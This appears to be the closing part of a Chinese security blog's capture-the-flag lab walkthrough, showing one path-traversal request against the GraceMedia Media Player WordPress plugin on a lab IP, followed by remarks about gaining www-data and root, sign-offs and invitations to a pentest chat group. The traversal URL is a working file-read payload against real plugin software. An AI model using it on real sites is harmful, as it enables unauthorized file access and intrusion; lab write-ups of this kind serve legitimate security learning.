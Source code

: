 ```
192.168.56.144/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../var/www/html/tsweb/wp-content/themes/twentytwenty/readme.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybh49BdEwibk1A9OQRy3U5GiamHH3iacfvhsv5xc0r1w2CuFA3c55DuiakevQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B5jnBA4aK2PVgpPXb3icia4IlhPWpUcVPKuLZFVgM0MicWLQyBHHjNCzleyNttcQUrMMNEQiavJmdOibTEtbd7qy3NA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/vGvT20PEzJu8qDXo8Ik8BbvLexAFMvas1XwaWM6j82m0N3JZwN9ka2DyxZ2Wib9480zfzoRyu2biawhDFdc3mtUg/640?wx_fmt=png)

看来只能获得 www-data 权限... 这边继续往下走就能获得 root... 不过这是一个思路，可能还有别的方法... 如果有请告诉我，谢啦！！

凌晨文章...

由于我们已经成功得到 root 权限查看 flag，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/4T3W5gcXFFfEEGbktbgibuyOhFPiaDLPHm6AN3KgGzHAAVrSClvCUyjWzMUgHlDz1erKjfV4fessborPkTWYl76w/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)